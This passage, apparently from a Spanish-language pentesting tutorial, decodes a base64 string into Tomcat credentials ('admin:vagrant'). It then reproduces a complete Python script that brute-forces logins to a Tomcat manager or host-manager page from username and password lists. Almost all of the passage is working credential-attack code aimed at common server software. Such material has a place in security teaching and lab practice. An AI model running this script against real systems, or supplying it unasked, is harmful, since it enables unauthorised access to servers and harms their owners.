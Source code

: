 ```r
echo YWRtaW46dmFncmFudA== |base64 -d

admin:vagrant
```

También podemos usar [este](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) script en Python para lograr el mismo resultado.

```r
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```
